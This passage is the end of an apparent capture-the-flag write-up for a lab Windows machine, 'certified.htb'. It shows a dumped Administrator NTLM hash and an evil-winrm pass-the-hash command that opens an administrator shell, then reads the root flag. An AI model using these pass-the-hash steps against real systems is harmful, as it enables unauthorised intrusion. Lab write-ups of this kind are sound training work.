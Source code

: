 This gives us the NTLM hash for Administrator:

```
aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

And a shell:

```bash
evil-winrm -i certified.htb -u administrator -H 0d5b49608bbce1751f708748f67e2d34
```
And `root.txt`
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
48ea19************************
```
    
Aaaaand we're done. 
Thanks for reading! 


